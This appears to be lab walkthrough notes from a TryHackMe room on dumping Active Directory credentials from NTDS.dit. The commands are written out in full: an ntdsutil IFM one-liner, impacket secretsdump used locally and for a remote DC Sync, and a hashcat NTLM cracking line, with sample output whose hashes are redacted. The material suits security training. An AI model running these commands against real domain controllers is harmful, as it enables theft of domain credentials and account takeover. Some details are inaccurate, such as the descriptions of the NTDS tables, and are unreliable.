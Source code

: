 
## General

NTDS Domain Controller

New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc. The NTDS.DTS data consists of three tables as follows:

-   Schema table: it contains types of objects and their relationships.
-   Link table: it contains the object's attributes and their values.
-   Data type: It contains users and groups.

NTDS is located in`C:\Windows\NTDS` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the NTDS.dit file from the machine running is disallowed since the file is used by Active Directory and is locked. However, there are various ways to gain access to it.

It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the `SECURITY` file system. Therefore, we must also dump the security file containing all required files to decrypt.


## Commands

## Ntdsutil  
Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various scenarios such as 

-   Restore deleted objects in Active Directory.
-   Perform maintenance for the AD database.
-   Active Directory snapshot management.
-   Set Directory Services Restore Mode (DSRM) administrator passwords.

For more information about Ntdsutil, you may visit the Microsoft documentation [page](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11)).

- **Local Dumping (No Credentials)**
	This is usually done if you have no credentials available but have administrator access to the domain controller. Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, first, we assume we have administrator access to a domain controller. 
	
	To successfully dump the content of the NTDS file we need the following files:
	
	-   C:\Windows\NTDS\ntds.dit
	-   C:\Windows\System32\config\SYSTEM
	-   C:\Windows\System32\config\SECURITY
	
	The following is a one-liner PowerShell command to dump the NTDS file using the Ntdsutil tool in the `C:\temp` directory.
	
	Dumping the content of the NTDS file from the Victim Machine
	
	```shell-session
	powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
	```
	
	Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the AttackBox and run the secretsdump.py script to extract the hashes from the dumped memory file.
	
	Extract hashes from NTDS Locally
	
	```shell-session
	user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
	```


- **Remote Dumping (With Credentials)**
	In the previous section, we discussed how to get hashes from memory with no credentials in hand. In this task, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.
	
	DC Sync
	
	The DC Sync is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:
	
	-   Replicating Directory Changes
	-   Replicating Directory Changes All
	-   Replicating Directory Changes in Filtered Set  
	    
	
	An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync. For more information about the DC Sync attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 2).
	
	The Persisting AD room uses the Mimikatz tool to perform the DC Synchronisation attack. Let's demonstrate the attack using a different tool, such as the Impacket SecretsDump script. 
	
	Performing the DC Sync Attack
	
	```shell-session
	user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.65.204 
	Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
	
	Password:
	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Using the DRSUAPI method to get NTDS.DIT secrets
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	```


Let's explain the command a bit more.

-   the `-just-dc` argument is for extracting the NTDS data.
-   the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

Note if we are interested to dump only the NTLM hashes, then we can use the `-just-dc-ntlm` argument as follows,

The DC Sync Attack to Dump NTLM Hashes

```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@10.10.65.204
```

Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:

Performing the DC Sync Attack

```shell-session
user@machine$ hashcat -m 1000 -a 0  /path/to/wordlist/such/as/rockyou.txt
```